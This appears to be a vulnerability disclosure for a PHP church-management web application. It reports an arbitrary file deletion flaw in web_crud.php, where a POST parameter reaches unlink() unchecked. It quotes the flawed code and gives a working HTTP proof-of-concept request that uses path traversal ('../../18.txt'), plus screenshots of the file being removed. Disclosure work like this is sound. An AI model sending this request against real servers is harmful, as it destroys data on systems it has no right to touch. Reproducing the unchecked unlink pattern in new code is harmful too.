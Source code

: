 ### Vulnerability file address

In line 436 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_news_img']);`,` $_POST['old_news_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['newsphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["newsphoto"]["name"]);

            if (move_uploaded_file($_FILES["newsphoto"]["tmp_name"], $filepath)) {
                $img7 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_news_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 375

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_news_img"

../../18.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="newsphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `18.txt` file in the `church/` directory

![image-20250505163149813](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051631853.png)

Then we execute the above poc to attack

![image-20250505163243476](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051632506.png)

Files are deleted after the attack is successful

![image-20250505163250683](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051632717.png)
